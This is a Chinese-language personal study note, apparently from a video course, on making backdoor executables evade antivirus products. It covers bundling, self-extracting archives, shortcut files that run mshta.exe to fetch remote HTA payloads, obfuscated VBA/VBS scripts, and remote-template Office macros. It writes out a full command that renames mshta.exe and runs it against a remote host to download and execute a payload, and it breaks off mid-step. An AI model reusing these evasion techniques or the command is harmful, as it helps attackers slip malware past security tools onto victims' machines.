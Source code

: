 ![image-20241227135600527](E:\新建文件夹\新建文件夹\typora学习笔记软件\缓存\image-20241227135600527.png)

这里就是分离的思想，只需要将后门exe免杀就行，捆绑后的exe也是免杀的。



#### 2、

9min   自解压免杀

一样，也是将我们的后门exe免杀就行。

#### 3、

16min  快捷方式-------主要：1、拦截执行下载的mshta.exe程序，2、远程下载的hta文件

![image-20241227173500530](E:\新建文件夹\新建文件夹\typora学习笔记软件\缓存\image-20241227173500530.png)

25min绕拦截            后面图像有问题，中间翻车制作vba的免杀被剪掉了，vba在这里火绒是既要mshta程序进行处理，又要对vba本身进行混淆加密。

hta文档里的vba文件直接被杀，所以需要做免杀：

![image-20241227192737444](E:\新建文件夹\新建文件夹\typora学习笔记软件\缓存\image-20241227192737444.png)

![image-20241227192715013](E:\新建文件夹\新建文件夹\typora学习笔记软件\缓存\image-20241227192715013.png)

加密：

![image-20241227194313535](E:\新建文件夹\新建文件夹\typora学习笔记软件\缓存\image-20241227194313535.png)

用cmd.exe调用执行copy 将刚才加密后的两个vbs放到web站点上：

![image-20241227194424214](E:\新建文件夹\新建文件夹\typora学习笔记软件\缓存\image-20241227194424214.png)

40min  制作powershell的免杀---------这里都是做的快捷方式的hta文件，只是hta有许多格式。powershell、vba     这里是要对powershell.exe进行copy处理，但是不用对powershell执行的命令免杀，这就是内存问题。

![image-20241227201203409](E:\新建文件夹\新建文件夹\typora学习笔记软件\缓存\image-20241227201203409.png)

C:\Windows\System32\cmd.exe /c copy C:\Windows\System32\mshta.exe ms.exe & ms.exe http://192.168.139.128:96/download/file.ext     ![image-20241227201240328](E:\新建文件夹\新建文件夹\typora学习笔记软件\缓存\image-20241227201240328.png)

现在这方法已经不适用了，用不了了。远程调用时候会被杀。



#### 4、

54min   office 宏免杀。模板免杀，这里找到模板的地址，发现创建一个模板文档时会调用一个路径，这路径就是模板的地址，那么就可以更改他调用的模板路径为我们宏的远程地址，进而加载上线。但是这里只能过表面，运行加载远程宏时会被发现

生成一个宏模板文件 11.docx，宏为空的，将宏模板后缀改为zip，打开后后有setting 文件

![image-20241227202240358](E:\新建文件夹\新建文件夹\typora学习笔记软件\缓存\image-20241227202240358.png)

打开setting 文件：
